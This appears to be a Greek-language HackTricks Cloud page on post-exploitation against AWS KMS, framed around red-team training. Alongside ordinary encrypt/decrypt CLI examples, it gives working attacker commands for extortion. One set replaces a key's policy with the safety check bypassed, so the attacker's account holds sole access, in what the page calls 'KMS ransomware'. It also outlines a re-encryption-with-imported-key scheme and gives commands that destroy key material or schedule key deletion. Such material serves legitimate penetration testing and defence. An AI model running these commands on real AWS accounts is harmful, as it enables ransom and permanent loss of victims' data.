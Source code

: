 # AWS - KMS Post Exploitation

{% hint style="success" %}
Μάθετε και εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε και εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}

## KMS

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../../aws-security/aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../../aws-security/aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Κρυπτογράφηση/Αποκρυπτογράφηση πληροφοριών

* Χρησιμοποιώντας ένα **συμμετρικό** κλειδί
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Χρησιμοποιώντας ένα **asymmetric** κλειδί:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
{% hint style="warning" %}
Αν λαμβάνετε το σφάλμα 'An error occurred (InvalidCiphertextException) when calling the Decrypt operation:' όταν προσπαθείτε να εκτελέσετε kms decrypt, δοκιμάστε να χρησιμοποιήσετε **`--ciphertext-blob file://`** αντί για **`fileb://`**.

Η χρήση του **`file://`** σας παρέχει την ευκολία να χρησιμοποιείτε αρχεία γραμμένα στην προτιμώμενη κωδικοποίηση σας όταν χρησιμοποιείτε το CLI.
Στις εκδόσεις 1.6.3 και νεότερες του CLI, έχετε πρόσβαση σε έναν άλλο τρόπο να περάσετε τα περιεχόμενα ενός αρχείου στο CLI, **`fileb://`**. Λειτουργεί παρόμοια με το **`file://`**, αλλά αντί να διαβάζει τα περιεχόμενα του αρχείου ως κείμενο, τα διαβάζει ως δυαδικά.

Στις περισσότερες περιπτώσεις, το **`file://`** θα καλύψει την ανάγκη σας για τη μεταφορά των περιεχομένων ενός αρχείου ως είσοδο. Ωστόσο, υπάρχουν κάποιες περιπτώσεις όπου το **`fileb://`** πρέπει να χρησιμοποιηθεί για να περάσει τα περιεχόμενα του αρχείου ως δυαδικά αντί για κείμενο.
Διαβάστε περισσότερα από την AWS εδώ: [AWS Blog - Best Practice for Local File Parameters](https://aws.amazon.com/blogs/developer/best-practices-for-local-file-parameters/)
{% endhint %}

### KMS Ransomware

Ένας επιτιθέμενος με προνομιακή πρόσβαση στο KMS θα μπορούσε να τροποποιήσει την πολιτική KMS των κλειδιών και **να παραχωρήσει στον λογαριασμό του πρόσβαση σε αυτά**, αφαιρώντας την πρόσβαση που έχει παραχωρηθεί στον νόμιμο λογαριασμό.

Στη συνέχεια, οι χρήστες του νόμιμου λογαριασμού δεν θα μπορούν να έχουν πρόσβαση σε καμία πληροφορία οποιασδήποτε υπηρεσίας που έχει κρυπτογραφηθεί με αυτά τα κλειδιά, δημιουργώντας ένα εύκολο αλλά αποτελεσματικό ransomware στον λογαριασμό.

{% hint style="warning" %}
Σημειώστε ότι **τα διαχειριζόμενα κλειδιά της AWS δεν επηρεάζονται** από αυτή την επίθεση, μόνο **τα διαχειριζόμενα κλειδιά πελατών**.

Επίσης, σημειώστε την ανάγκη χρήσης της παραμέτρου **`--bypass-policy-lockout-safety-check`** (η έλλειψη αυτής της επιλογής στην κονσόλα web καθιστά αυτή την επίθεση δυνατή μόνο από το CLI).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Σημειώστε ότι αν αλλάξετε αυτήν την πολιτική και δώσετε πρόσβαση μόνο σε έναν εξωτερικό λογαριασμό, και στη συνέχεια από αυτόν τον εξωτερικό λογαριασμό προσπαθήσετε να ορίσετε μια νέα πολιτική για να **δώσετε την πρόσβαση πίσω στον αρχικό λογαριασμό, δεν θα μπορέσετε**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Γενικό KMS Ransomware

#### Παγκόσμιο KMS Ransomware

Υπάρχει ένας άλλος τρόπος να εκτελέσετε ένα παγκόσμιο KMS Ransomware, ο οποίος περιλαμβάνει τα εξής βήματα:

* Δημιουργία ενός νέου **κλειδιού με υλικό κλειδιού** που εισάγεται από τον επιτιθέμενο
* **Επανακρυπτογράφηση παλαιότερων δεδομένων** που κρυπτογραφήθηκαν με την προηγούμενη έκδοση με τη νέα.
* **Διαγραφή του KMS κλειδιού**
* Τώρα μόνο ο επιτιθέμενος, που έχει το αρχικό υλικό κλειδιού, θα μπορούσε να αποκρυπτογραφήσει τα κρυπτογραφημένα δεδομένα

### Καταστροφή κλειδιών
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Σημειώστε ότι το AWS τώρα **αποτρέπει τις προηγούμενες ενέργειες από το να εκτελούνται από έναν λογαριασμό cross:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Γίνετε μέλος της** 💬 [**ομάδας Discord**](https://discord.gg/hRep4RUj7f) ή της [**ομάδας telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}
